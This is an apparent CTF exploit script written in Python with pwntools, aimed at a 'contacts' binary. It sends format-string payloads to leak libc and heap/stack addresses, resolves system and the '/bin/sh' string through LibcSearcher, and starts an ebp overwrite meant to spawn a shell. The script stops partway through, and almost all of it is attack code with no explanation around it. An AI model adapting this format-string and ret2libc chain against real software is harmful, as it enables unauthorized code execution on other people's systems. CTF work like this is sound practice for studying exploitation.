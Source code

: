 ```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
```
